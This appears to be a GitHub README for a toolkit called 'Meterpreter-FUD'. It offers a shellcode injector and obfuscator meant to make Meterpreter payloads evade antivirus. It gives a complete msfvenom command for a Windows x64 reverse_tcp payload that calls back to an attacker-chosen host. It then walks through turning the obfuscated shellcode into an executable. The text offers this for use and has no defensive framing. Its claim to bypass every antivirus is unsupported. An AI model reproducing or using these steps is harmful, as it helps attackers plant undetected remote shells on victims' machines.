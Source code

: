 # Meterpreter-FUD
Toolkit to create a Fud meterpreter, which bypass every Anti-Virus.

The Toolkit has 2 scripts, A shellcode injector and a obfuscator, you have to generate the payload via Metersploit and this command:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=4444 -f python

You put the shellcode into the shellcode.py file, then you run the main.py script and get a fud python script, which you can compile to a exe file




